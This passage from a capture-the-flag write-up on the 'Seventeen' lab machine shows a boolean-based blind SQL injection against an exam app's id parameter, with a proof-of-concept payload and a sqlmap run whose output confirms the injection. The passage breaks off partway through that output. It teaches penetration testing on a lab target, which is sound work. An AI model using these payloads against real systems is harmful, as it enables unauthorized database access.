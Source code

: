 

When looking at these to see if either matches Seventeen, I'll compare
the URL structure to the URLs from `feroxbuster` above. The first two
point to `/pages/save_user.php`. I couldn't find any page like that on
the server. The second two target `/erms/classes/Users.php` and
`/erms/?p=take_exam&id=1`. Those look like URLs I've already seen
(without the `/erms`).

50726 is a authenticated RCE. As I don't have creds, I'll forucs on the
next one.

50725 is a boolean-based blind SQL injection.

#### SQL Injection

The POC is:



    p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu



Visiting the URL returns a page:

![](/img/image-20220503173823111.png)

If I replace `4755=4755` with `4755=4756`:

![](/img/image-20220511100624195.png)

This page actually has the following tacked on at the end of the HTML:



    <script> alert("Unkown Exam ID"); location.replace("./");</script>



Given the different behaviors based on if the condition in the middle is
equal or not, this is a boolean-based SQL injection.

#### sqlmap

I'll give `sqlmap` the URL, as well as `--technique B` (for
boolean-based) and `-p id` to tell it which parameter to work on.



    oxdf@hacky$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
    ...[snip]...
    [14:05:35] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('PHPSESSID=844b4ad6133...45b2d7d69c'). Do you want to use those [Y/n] Y
    [14:05:35] [INFO] checking if the target is protected by some kind of WAF/IPS
    [14:05:36] [INFO] testing if the target URL content is stable
    [14:05:36] [INFO] target URL content is stable
    [14:05:36] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [14:05:36] [INFO] testing for SQL injection on GET parameter 'id'
    [14:05:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:05:38] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This")
    [14:05:40] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    [14:05:40] [INFO] checking if the injection point on GET parameter 'id' is a false positive
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 39 HTTP(s) requests:
    ---
    Parameter: id (GET)